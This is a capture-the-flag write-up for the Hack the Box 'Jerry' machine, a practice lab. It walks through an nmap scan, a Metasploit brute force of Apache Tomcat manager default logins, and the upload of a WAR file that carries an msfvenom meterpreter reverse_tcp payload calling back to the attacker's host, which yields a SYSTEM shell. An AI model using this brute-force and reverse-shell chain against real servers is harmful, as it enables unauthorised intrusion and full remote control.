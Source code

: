 ### Introduction
Hack the Box Jerry is a challenge involving an apache server running Tomcat (thus the tom and jerry reference of the box). Exploiting the box requires basic enumeration scanning, some bruteforcing methods, knowledge of how apache tomcat servers work, and in this particular method that I used to solve: msfvenom and metasploit to create a metrepeter sessions. All of which is documented below.

### Enumeration
To first enumerate the box, I use ```nmap -sC -sV -oA scan 10.10.10.95```. This will scan for services and the output will be stored in ```scan.*``` in different formats for later use. The output is shown below:

![jerry](https://user-images.githubusercontent.com/41026969/54472176-97deaf80-479a-11e9-9cd5-7830d030d95a.PNG)

So from the photo above, it is shown that port 8080 is open for TCP connection and that it is running an Apache Tomcat server (that runs JSP code). So I do some more investigating by connection to the IP and port: ```10.10.10.95:8080```. It shows the page shown below:

![jerry](https://user-images.githubusercontent.com/41026969/54472198-1dfaf600-479b-11e9-8465-11ecbd70df6d.PNG)

So I see a pretty basic Apache Tomcat (looks like) default webpage. We can run a bruteforce scan to see if we can get into the application manager using metasploit. A cool thing about metasploit is that there is a built in search tool to find certain exploits and auxiliary functions. In this situation, I do ```search Tomcat``` to find anything related to Tomcat. This is what it finds:

![jerry](https://user-images.githubusercontent.com/41026969/54472258-e6d91480-479b-11e9-8d5a-ef1451ee0922.PNG)

We see there's an auxiliary function we can use: ```auxiliary/scanner/http/tomcat_mgr_login```, according to the description, it will find scan for possible login combinations that I can use for the Application Manager that was shown before. As seen below, I set ```BLANK_PASSWORDS``` to true (just incase) and set the remote host that I'll be scanning to ```10.10.10.95``` (doing ```show options``` shows the default port set to 8080 so we don't need to change that). This is the metasploit log:

```
msf > use auxiliary/scanner/http/tomcat_mgr_login 
msf auxiliary(scanner/http/tomcat_mgr_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.10.10.95
RHOSTS => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[-] 10.10.10.95:8080 - LOGIN FAILED: both: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/tomcat_mgr_login) >  
```

From the logs above I saw that I log into the application manager using credentials username ```tomcat``` and password ```s3cret```. This won't get us a shell, but we get a step closer. Exploring where we land using these credentials we get into this page of the application manager:

![jerry](https://user-images.githubusercontent.com/41026969/54472325-13d9f700-479d-11e9-87e4-6e63a5b66b8d.PNG)

This page reveals some more information. This machine is running a version of Windows 2012 64 bit (says under ```OS Architecture```) and that we can upload WAR files that can potential be used...

### Exploitation
Knowing that the server is running Windows and is 64 bit, we can craft a payload using ```msfvenom```. You can do ```msfvenom -h``` to list the commands/tacks used to specifically craft the payload (listed below too):

![jerry](https://user-images.githubusercontent.com/41026969/54472376-f48f9980-479d-11e9-9b65-cb474c576997.PNG)

msfvenom also has a search function that you can use to search through payload options. Knowing this is a windows 64 bit I know I can create a reverse TCP to spawn a meterpreter shell:

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[my IP] LPORT=9001 -f war -o PleaseWork.war```

NOTE: there IS a difference between the paylods ```windows/x64/meterpreter_reverse_tcp``` and the one I'm using above. The one mentioned just now (not using) is bigger in size and creates a meterpreter session with full capabilities and functions. I simply use the smaller file as I just need a meterpreter shell and it's faster to upload for the server.

Also NOTE: WAR files are essentially zip files that the Tomcat server uses (think of it similar to an .apk file) to run code inside of it. Specifically we are going to be running one of the ```.jsp``` codes so first I unzip by doing ```unzip PleaseWork.war``` then doing an ```ls -la``` check I see there's a ```jkrpgtlkson.jsp``` file that the Tomcat server can run (it's going to be a different name for everyone). This is the file we'll be using to get the reverse TCP connection.

Going back to the website, under ```WAR file to deploy``` we can upload our newly crafted WAR file. When doing so and clicking the deploy button, it is shown in the website! We can then go to ```http://10.10.10.95:8080/PleaseWork/jkrpgtlkson.jsp``` to run the code.

![jerry](https://user-images.githubusercontent.com/41026969/54472458-10476f80-479f-11e9-8195-f1494af601da.PNG)

Since we don't have a listener set up it is showning a 404, we need to set up a metasploit session to start listening for a reverse TCP conneciton. We use mutli/handler and set the payload to the same thing we used in msfconsole: ```windows/x64/meterpreter/reverse_tcp```. Then we set the local host to ourselves and say we are listening on port 9001. Then I run the exploit. Here's the metasploit log of what I did:

```
msf > use exploit/multi/handler    
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST tun0
LHOST => [my IP]
msf exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf exploit(multi/handler) > run -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on [my IP]:9001 
msf exploit(multi/handler) > [*] Sending stage (205891 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened ([my IP]:9001 -> 10.10.10.95:49193) at 2019-03-16 03:59:10 -0400

msf exploit(multi/handler) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JERRY  [my IP]:9001 -> 10.10.10.95:49193 (10.10.10.95)

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : JERRY
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : en_US
Domain          : HTB
Logged On Users : 0
Meterpreter     : x64/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We can then use the command ```shell``` to get a windows shell.

Flag location: ```C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt```

(you'll need to use double quotation marks ;)    )


